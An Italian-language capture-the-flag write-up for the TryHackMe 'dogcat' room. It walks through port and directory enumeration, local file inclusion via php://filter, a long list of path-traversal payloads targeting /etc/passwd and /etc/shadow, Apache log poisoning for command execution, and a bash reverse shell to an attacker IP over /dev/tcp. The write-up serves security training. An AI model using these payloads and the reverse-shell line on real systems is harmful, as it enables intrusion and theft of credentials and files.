


# dogcat

Link: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

Partiamo con l’enumerazione dei servizi presenti ed esposti nella macchina usando `nmap`

```bash
kali@kali:~/Desktop/CTF/dogcat$ sudo nmap -sS -sV -sC -O -T5 -p- dogcat.local -oN nmap_result.txt
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-07 16:00 -0400
Nmap scan report for dogcat.local (10.130.137.211)
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (95%), Linux 5.4 - 5.15 (95%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%), Linux 3.7 - 4.19 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.69 seconds
```

Il sistema operativo molto probabilmente è `Linux` con `kernel da 5.14 a 6.8`

| Servizio | Porta | Versione |
| --- | --- | --- |
| ssh | 22 | OpenSSH 7.6p1  |
| http | 80 | Apache/2.4.38 |

E’ quindi un server apache, utilizzerà quindi come stack tecnologico `php` e probabilmente se ha un `database` utilizzerà lo stack `LAMP` . Procediamo con l’enumerazione dei percorsi web

```bash
kali@kali:~/Desktop/CTF/dogcat$ gobuster dir -u http://dogcat.local/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dogcat.local/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 277]
.hta.bak             (Status: 403) [Size: 277]
.hta.php             (Status: 403) [Size: 277]
.hta.txt             (Status: 403) [Size: 277]
.htaccess            (Status: 403) [Size: 277]
.htaccess.php        (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
.htaccess.txt        (Status: 403) [Size: 277]
.htaccess.bak        (Status: 403) [Size: 277]
.htpasswd.php        (Status: 403) [Size: 277]
.htpasswd.txt        (Status: 403) [Size: 277]
.htpasswd.bak        (Status: 403) [Size: 277]
cat.php              (Status: 200) [Size: 26]
cats                 (Status: 301) [Size: 311] [--> http://dogcat.local/cats/]
flag.php             (Status: 200) [Size: 0]
index.php            (Status: 200) [Size: 418]
index.php            (Status: 200) [Size: 418]
server-status        (Status: 403) [Size: 277]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
```

Salta subito all’occhio `flag.php` anche se size è `0` si acpisce subito che è un file vuoto 

```bash
kali@kali:~/Desktop/CTF/dogcat$ curl http://dogcat.local/flag.php                                                                                                            
kali@kali:~/Desktop/CTF/dogcat$ curl http://dogcat.local/flag.php -I
HTTP/1.1 200 OK
Date: Wed, 07 Oct 2026 20:10:57 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.3
Content-Type: text/html; charset=UTF-8
```

Aprendo invece`dogcat.local/?view=cats` quello che ho supposto è che cats sia una cartella, quindi ho provato a fare: [`http://dogcat.local/?view=../cats`](http://dogcat.local/?view=../cats) e infatti si ha un comportamento strano:



cerca di aprire un file dove il nome è quello che viene passato in `view=`  e in automatico viene concatenato `.php` . 


Esegue `index.php` invece di leggerlo. usiamo una tecnica che usa il wrapper `php://filter`, che intercetta il flusso prima che PHP lo elabori.

Quindi: `http://dogcat.local/?view=php://filter/convert.base64-encode/resource=cats/../index`


Otteniamo questa stringa:

```bash

go!PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==
    
```

Una stringa in base64 che decodificata da

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog">
	        <button id="dog">A dog</button>
	      </a> 
	      <a href="/?view=cat">
	      <button id="cat">A cat</button>
	      </a>
	      <br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
                                                                       
kali@kali:~$ 
```

Vediamo come è presente un parametro `GET` dal nome `ext`  dove è possibile specificare l’estensione.

Quindi facendo `http://dogcat.local/?ext=&view=cats/../../../../../../etc/passwd` possiamo enumerare tutti gli utenti


Ora dobbiamo trovare file importanti

Possiamo trovare la prima flag con `http://dogcat.local/?view=php://filter/convert.base64-encode/resource=cats/../flag`



da decodificare poichè in base64 

```php
kali@kali:~/Desktop/CTF/dogcat$ echo "PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=" | base64 -d
<?php
$flag_1 = "THM{****_**_***_*_******_********}"
?>
```

Eumerando tutti i file disponibili:

```php
kali@kali:~/Desktop/CTF/dogcat$ ffuf -s -u 'http://dogcat.local/?ext=&view=cat/../../../../../../FUZZ' \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
-fr 'failed to open stream'
%00../../../../../../etc/passwd
%00/etc/passwd%00
%00/etc/shadow%00
../../../../../../../../../../../../boot.ini%00
..\..\..\..\..\..\..\..\..\..\boot.ini%00
/../../../../../../../../../../../boot.ini%00
/../../../../../../../../../../../boot.ini%00.html
/../../../../../../../../../../../boot.ini%00.jpg
../_config.php%00
/etc/apt/sources.list
/etc/fstab
/etc/group
/etc/hosts
../../../../../../../../../../../../etc/hosts%00
../../../../../../../../../../../../etc/hosts
/etc/issue
/etc/init.d/apache2
/etc/motd
/../../../../../../../../../../etc/passwd
/./././././././././././etc/passwd
/etc/passwd
/etc/nsswitch.conf
../../../../../../../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../etc/passwd
../../../../../../../../../../etc/passwd
../../etc/passwd
../etc/passwd
etc/passwd
/etc/passwd%00
../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../etc/passwd%00
../../../../../../../../../etc/passwd%00
../../../../../../../../etc/passwd%00
../../../../../../../etc/passwd%00
../../../../../../etc/passwd%00
../../../../etc/passwd%00
../etc/passwd%00
../../etc/passwd%00
..\..\..\..\..\..\..\..\..\..\etc\passwd%00
../../../etc/passwd%00
../../../../../etc/passwd%00
\..\..\..\..\..\..\..\..\..\..\etc\passwd%00
/../../../../../../../../../../../etc/passwd%00.html
/../../../../../../../../../../../etc/passwd%00.jpg
../../../../../../etc/passwd&=%3C%3C%3C%3C
/etc/resolv.conf
../../../../../../../../../../../../../../../../../../../../../../etc/shadow%00
../../../../../../../../../../../../etc/shadow%00
\..\..\..\..\..\..\..\..\..\..\etc\shadow%00
..\..\..\..\..\..\..\..\..\..\etc\shadow%00
etc/shadow%00
../../../../../../../../../../../../localstart.asp%00
/proc/cpuinfo
/proc/interrupts
/proc/loadavg
/proc/net/arp
/proc/mounts
/proc/meminfo
/proc/net/dev
/proc/net/route
/proc/partitions
/proc/net/tcp
/proc/self/cmdline
/proc/self/status
/proc/version
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%00
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%00
%00../../../../../../etc/shadow
/var/log/apache2/error.log
../../../../../../../var/log/apache2/error.log
../../../../../../../var/log/apache2/access.log
/var/log/apache2/access.log
/var/log/lastlog
/var/log/wtmp
/var/run/utmp
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
..2fetc2fpasswd%00
..2f..2fetc2fpasswd%00
..2f..2f..2fetc2fpasswd%00
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd
..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fshadow%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
///////../../../etc/passwd
/etc/apache2/apache2.conf
..2f..2f..2f..2fetc2fpasswd%00
                                                                       
kali@kali:~/Desktop/CTF/dogcat$ 
```


Viene passato l’`user agent` se non è ben gestito è possibile lanciare codice `PHP` 


Confermiamo la gestione errata! possiamo avviare una reverse shell.

Carico quindi un modo per eseguire dei comandi `bash`


Abbiamo quindi a disposizione un modo per eseguire comandi in maniera semplice. Troviamo la flag 2 con `cmd=cat ../flag2_QMW7JvaY2LvK.txt`
`THM{***_**_***_*****}`

ora procediamo a creare una reverse shell usando `/usr/share/webshells/php/php-reverse-shell.php`

Eseguendo `http://dogcat.local/?ext=&view=cat/../../../../../..//var/log/apache2/access.log&cmd=whoami` si vede che siamo `www-data` 

Creo file `shell.sh`  con `cmd=touch shell.sh`  e ci scrivo una reverse shell bash 

E mettiamoci una reverse shell in bash `http://dogcat.local/?ext=&view=cat/../../../../../..//var/log/apache2/access.log&cmd=printf%20'%23%21/bin/bash%0A/bin/bash%20-i%20%3E%26%20/dev/tcp/192.168.142.32/4444%200%3E%261'%20%3Eshell.sh`  e rendiamolo eseguibile `http://dogcat.local/?ext=&view=cat/../../../../../..//var/log/apache2/access.log&cmd=chmod%20%2Bx%20shell.sh` 

possiamo quidni avviare la reverse shell `kali@kali:~/Desktop/CTF/dogcat$ curl "http://dogcat.local/?ext=&view=cat/../../../../../..//var/log/apache2/access.log&cmd=./shell.sh"`

```php
kali@kali:~/Desktop/CTF/dogcat$ nc -lvnp 4444                       
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.156.160] 48760
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@9ad1bb9b055f:/var/www/html$ ls
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
shell.sh
style.css
www-data@9ad1bb9b055f:/var/www/html$ whoami; groups
whoami; groups
www-data
www-data
www-data@9ad1bb9b055f:/var/www/html$ 
```